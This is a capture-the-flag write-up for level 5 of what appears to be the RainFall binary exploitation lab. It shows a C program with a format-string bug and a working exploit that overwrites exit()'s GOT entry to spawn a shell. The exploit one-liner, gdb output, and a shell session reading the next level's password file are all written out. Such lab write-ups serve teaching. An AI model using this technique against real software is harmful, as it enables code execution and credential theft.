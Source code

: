 # Level 5

<h3>source.c</h3>

```console
void o(void) {
  system("/bin/sh");
  _exit(1);
}

void n(void) {
  char str[520];

  fgets(str, 521, stdin);
  printf(str);
  exit(1);
}

void main(void) {
  n();
}
```

<h3>Analysis</h3>

Another similar program, this time our target will be to call the `o()`

We could overwrite the `exit()` `GOT (Global Offsets Table)` to point to `o()` instead, so the program will execute `o()` instead of the real `exit()`

<h3>Exploit</h3>

The address of `o()` is at `0x080484a4`

The address of `exit()` is at `0x080483d0`

Next we need to find which arg position of the `printf()` that we can control on

```console
level5@RainFall:~$ (python -c "print 'aaaa' + ' [%x] ' * 5") | ./level5
aaaa [200]  [b7fd1ac0]  [b7ff37d0]  [61616161]  [78255b20]
```

There we have it, the 4th position!

Next we will need to get the `GOT` of `exit()`

```console
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
```

We have the address which is `0x08049838`

Now we need to write the address of `o()` into the `GOT` of `exit()`, so we need to get decimal version of the address, which is `134513828`

Since we already have the 4 bytes for the target address, the decimal value will be `134513824`

Same as the previous, we will use `%134513824d` to achieve it

```console
level5@RainFall:~$ (python -c "print '\x38\x98\x04\x08' + '%134513824d' + '%4\$n'"; cat - ) | ./level5
[...]
[...Ten eternity later...]
[...]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```